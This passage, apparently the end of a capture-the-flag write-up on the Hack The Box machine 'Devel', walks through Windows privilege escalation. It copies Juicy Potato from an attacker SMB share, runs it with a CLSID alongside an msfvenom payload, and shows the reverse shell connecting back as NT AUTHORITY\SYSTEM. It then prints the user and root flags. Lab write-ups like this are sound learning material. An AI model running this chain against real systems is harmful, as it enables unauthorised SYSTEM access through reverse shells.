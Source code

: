 `copy \\10.10.14.19\lmao\Juicy.Potato.x86.exe`
Next we just upload yet another msfvenom reverse shell payload. Then to run this tool we just call it and check our listener:

```
Juicy.Potato.x86.exe -t * -p c:\Windows\Temp\thisHasToWork.exe  -l 4445 -c "{69AD4AEE-51BE-439b-A92C-86AE490E8B30}"
Testing {69AD4AEE-51BE-439b-A92C-86AE490E8B30} 4445        
......                                                     
[+] authresult 0                                           
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM                                                            

[+] CreateProcessWithTokenW OK
```

And as for our listener..

```                                                                   
listening on [any] 4444 ...                                                                                                                                                                                                                 
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49233                                                            
Microsoft Windows [Version 6.1.7600]                       
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
                                                           
whoami
nt authority\system
```
There we go! We have the system. The SE impersonate with that CLSID we specified allowed us to impersonate the system.

And for the final step,
```
whoami
nt authority\system

net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babis                    Guest                     
The command completed with one or more errors.


type \Users\babis\Desktop\user.txt
type \Users\babis\Desktop\user.txt
524e325b026176b96400033ca6fa1644

type \Users\Administrator\Desktop\root.txt
type \Users\Administrator\Desktop\root.txt
19f64b5267d1d58f3fe83ff203a05007
```
Devel has been pwned :)
